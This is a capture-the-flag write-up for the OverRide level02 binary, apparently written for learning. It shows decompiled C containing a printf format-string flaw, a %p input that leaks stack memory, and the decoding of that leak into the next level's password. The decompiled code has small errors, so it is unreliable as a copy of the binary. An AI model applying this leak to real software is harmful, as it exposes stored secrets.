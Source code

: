 ## Step 1: Static & Dynamic Analysis

```c
int main(int argc, const char **argv, const char **envp)
{
  char name[100];
  char password[118];
  char buffer[48];
  int v5;
  int v8;
  int fd;
  FILE *stream

  memset(name, 0, sizeof(s));
  v8 = 0;
  memset(buffer, 0, 41);
  memset(password, 0, sizeof(password));
  v5 = 0;
  stream = 0;
  fd = 0;
  stream = fopen("/home/users/level03/.pass", "r");
  if ( !stream )
  {
    fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
    exit(1);
  }
  fd = fread(buffer, 1, 41, stream);
  buffer[strcspn(buffer, "\n")] = 0;
  if ( fd != 41 )
  {
    fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
    fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
    exit(1);
  }
  fclose(stream);
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");
  printf("--[ Username: ");
  fgets(name, 100, stdin);
  name[strcspn(name, "\n")] = 0;
  printf("--[ Password: ");
  fgets(password, 100, stdin);
  password[strcspn(password, "\n")] = 0;
  puts("*****************************************");
  if ( strncmp(buffer, password, 41) )
  {
    printf(name);
    puts(" does not have access!");
    exit(1);
  }
  printf("Greetings, %s!\n", name);
  system("/bin/sh");
}
```
### Explanation

The program start by putting the wordpass we need into a `buffer` on the stack.

```c
  stream = fopen("/home/users/level03/.pass", "r");
  if ( !stream )
  {
    fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
    exit(1);
  }
  fd = fread(buffer, 1, 41, stream);
  buffer[strcspn(buffer, "\n")] = 0;
```

Next, 2 inputs using `fgets()` are taken: a `name` and a `password`.
Finally a comparison between the `buffer` containing the password and `name` is done.

```c
  if ( strncmp(buffer, password, 41) )
  {
    printf(name);
    puts(" does not have access!");
    exit(1);
  }
```

The vulnerability occurs when the comparison between the password stored in `buffer` and `name` fails, causing our input `name` to be passed directly to `printf()`, leading to
a `printf format string` vulnerability  that allows us to read the contents of the stack.

To retrieve the password, we're going to use the `%p` format specifier to print addresses's content in hexadecimal
and see the wordpass ASCII characters.

## Step 2: Exploiting the Binary

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/**\
| You must login to access this system. |
***/
--[ Username: %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
--[ Password: a
*
0x7fffffffe500(nil)(nil)0x2a2a2a2a2a2a2a2a0x2a2a2a2a2a2a2a2a0x7fffffffe6f80x1f7ff9a08
(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x100000000(nil)
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d0xfeff00 does not have access!
```
Here are the 5 bytes containing every characters that constitutes the password to reverse
because each addresses's content are displayed in little endian.  

```
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d
unPR47hH         EAJ5as9Q         7zqCWNgX         5J5hnGXs         H3gPfK9M
```

giving this password:

```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```